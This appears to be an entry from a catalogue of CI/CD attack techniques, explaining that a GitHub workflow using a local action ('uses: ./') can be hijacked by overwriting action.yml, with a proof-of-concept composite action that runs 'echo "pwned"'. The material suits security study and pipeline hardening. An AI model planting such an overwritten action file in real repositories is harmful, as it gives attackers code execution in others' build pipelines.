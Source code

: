 ```yaml
---
title: Local GHA
tags:
- github-actions
- eval-sh
- config-file
references:
- https://docs.github.com/en/actions/sharing-automations/creating-actions
files:
- action.yml
- action.yaml
- Dockerfile
---
```


If GitHub Action uses a local action such as `uses: ./`, we can overwrite the configuration file and gain RCE with an `action.yml` file such as this:

```yaml
runs:
  using: 'composite'
  steps:
    - shell: bash
      run: echo "pwned"
```
